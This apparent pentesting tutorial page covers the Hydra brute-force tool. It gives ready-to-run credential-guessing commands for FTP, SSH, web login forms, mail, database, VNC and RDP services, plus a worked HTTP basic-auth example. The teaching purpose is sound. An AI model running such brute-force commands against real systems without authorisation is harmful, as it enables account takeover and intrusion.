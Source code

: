 ***

<mark style="color:green;">**Hydra Services**</mark>

Hydra services essentially define the specific protocols or services that Hydra can target. They enable Hydra to interact with different authentication mechanisms used by various systems, applications, and network services.

<table data-full-width="true"><thead><tr><th width="185">Hydra Service</th><th width="199">Service/Protocol</th><th width="203">Description</th><th>Example Command</th></tr></thead><tbody><tr><td>ftp</td><td>File Transfer Protocol (FTP)</td><td>Used to brute-force login credentials for FTP services, commonly used to transfer files over a network.</td><td><code>hydra -l admin -P /path/to/password_list.txt ftp://192.168.1.100</code></td></tr><tr><td>ssh</td><td>Secure Shell (SSH)</td><td>Targets SSH services to brute-force credentials, commonly used for secure remote login to systems.</td><td><code>hydra -l root -P /path/to/password_list.txt ssh://192.168.1.100</code></td></tr><tr><td>http-get/post</td><td>HTTP Web Services</td><td>Used to brute-force login credentials for HTTP web login forms using either GET or POST requests.</td><td><code>hydra -l admin -P /path/to/password_list.txt http-post-form "/login.php:user=^USER^&#x26;pass=^PASS^:F=incorrect"</code></td></tr><tr><td>smtp</td><td>Simple Mail Transfer Protocol</td><td>Attacks email servers by brute-forcing login credentials for SMTP, commonly used to send emails.</td><td><code>hydra -l admin -P /path/to/password_list.txt smtp://mail.server.com</code></td></tr><tr><td>pop3</td><td>Post Office Protocol (POP3)</td><td>Targets email retrieval services to brute-force credentials for POP3 login.</td><td><code>hydra -l user@example.com -P /path/to/password_list.txt pop3://mail.server.com</code></td></tr><tr><td>imap</td><td>Internet Message Access Protocol</td><td>Used to brute-force credentials for IMAP services, which allow users to access their email remotely.</td><td><code>hydra -l user@example.com -P /path/to/password_list.txt imap://mail.server.com</code></td></tr><tr><td>mysql</td><td>MySQL Database</td><td>Attempts to brute-force login credentials for MySQL databases.</td><td><code>hydra -l root -P /path/to/password_list.txt mysql://192.168.1.100</code></td></tr><tr><td>mssql</td><td>Microsoft SQL Server</td><td>Targets Microsoft SQL servers to brute-force database login credentials.</td><td><code>hydra -l sa -P /path/to/password_list.txt mssql://192.168.1.100</code></td></tr><tr><td>vnc</td><td>Virtual Network Computing (VNC)</td><td>Brute-forces VNC services, used for remote desktop access.</td><td><code>hydra -P /path/to/password_list.txt vnc://192.168.1.100</code></td></tr><tr><td>rdp</td><td>Remote Desktop Protocol (RDP)</td><td>Targets Microsoft RDP services for remote login brute-forcing.</td><td><code>hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100</code></td></tr></tbody></table>

***

#### <mark style="color:green;">Brute-Forcing HTTP Authentication</mark>

Imagine you're tasked with testing the security of a website using basic HTTP authentication at `www.example.com`. You have a list of potential usernames stored in `usernames.txt` and corresponding passwords in `passwords.txt`. To launch a brute-force attack against this HTTP service, use the following Hydra command:

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ hydra -L usernames.txt -P passwords.txt www.example.com http-get
```
{% endcode %}

This command instructs Hydra to:

* Use the list of usernames from the `usernames.txt` file.
* Use the list of passwords from the `passwords.txt` file.
* Target the website `www.example.com`.
* Employ the `http-get` module to test the HTTP authentication.
